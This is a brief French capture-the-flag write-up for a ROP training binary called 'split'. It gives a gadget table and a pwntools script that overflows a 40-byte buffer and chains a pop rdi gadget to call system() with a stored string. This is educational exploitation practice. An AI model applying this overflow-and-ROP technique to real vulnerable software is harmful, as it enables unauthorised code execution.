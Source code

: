 ### Ropchaine

La chaîne à envoyer après les 40 octets de débordement :

| gadget   | comment |
|----------|---------|
| 0x04007c3| pop rdi; ret |
| 0x601060 | @usefulString
| 0x40074b | call system dans usefulFunction

### Python script

``` python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time


gs='''
b *pwnme+89
c
'''

#context(terminal=['tmux', 'split-window', '-h'])
# Set up pwntools for the correct architecture
elf =  ELF('split')
context.binary=elf
# context(terminal=['tmux'])

useful_str=elf.symbols["usefulString"]
useful_fun=elf.symbols["usefulFunction"]

# Offset avant ecrasement de l'adresse de retour
offset=0x28
# gadget pop rdi; ret
pop_rdi=0x04007c3

io = process([elf.path])

if len(sys.argv)>1 and sys.argv[1] == "-d":
    gdb.attach(io,gs)
    time.sleep(1)

print(f"{useful_str=:x}")
print(f"{useful_fun=:x}")

io.recvuntil(b"> ")

# On retour en useful_fun + 9  pour sauter l'affectation de edi dans la fonction
PL =b"A"*offset
PL+=p64(pop_rdi)
PL+=p64(useful_str)
PL+=p64(useful_fun+9)

io.sendline(PL)
io.interactive()
```
